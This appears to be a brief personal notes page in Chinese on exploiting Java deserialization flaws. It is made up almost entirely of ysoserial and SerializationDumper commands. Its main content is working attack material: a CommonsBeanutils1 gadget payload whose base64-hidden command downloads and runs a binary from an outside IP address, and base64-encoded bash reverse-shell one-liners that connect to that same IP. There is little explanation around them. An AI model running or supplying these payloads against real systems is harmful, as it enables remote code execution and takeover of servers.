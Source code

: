 ```yaml
---
author: XhstormR
categories:
- Notes
date: 2021-01-27T16:40:13+08:00
title: Java 反序列化漏洞利用
---
```


<!--more-->

Updated on 2021-01-27

>

```bash
探测：
java -jar ysoserial-master-SNAPSHOT.jar URLDNS "http://y8jhkk.dnslog.cn" > URLDNS.bin

利用：
java -jar ysoserial-master-SNAPSHOT.jar CommonsBeanutils1 "bash -c {echo,d2dldCAtcU8gMTdLNm9NQzUgLS1uby1jaGVjay1jZXJ0aWZpY2F0ZSBodHRwOi8vNDcuOTguMTM1LjY1OjgwODAvbGpDUHh6dDsgY2htb2QgK3ggMTdLNm9NQzU7IC4vMTdLNm9NQzU=}|{base64,-d}|{bash,-i}" > CommonsBeanutils1.bin
```

```bash
转储为文本格式：
java -jar SerializationDumper-v1.13.jar -r CommonsBeanutils1.bin > CommonsBeanutils1.txt

还原为二进制流：
java -jar SerializationDumper-v1.13.jar -b CommonsBeanutils1.txt CommonsBeanutils1.ok.bin
```

```bash
计算 serialVersionUID -3490850999041592962 序列化后的值：
busybox printf "%016x" -3490850999041592962 |^
busybox fold -w2 |^
busybox paste -sd" "
----
cf 8e 01 82 fe 4e f1 7e
```

```bash
Shell 中执行命令：
bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45OC4xMzUuNjUvNDM5OSAwPiYx}|{base64,-d}|{bash,-i}'

Java 中执行命令：
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45OC4xMzUuNjUvNDM5OSAwPiYx}|{base64,-d}|{bash,-i}
```

## Reference
* https://github.com/frohoff/ysoserial
* https://github.com/zema1/ysoserial
* https://github.com/NickstaDB/SerializationDumper
* http://jackson-t.ca/runtime-exec-payloads.html
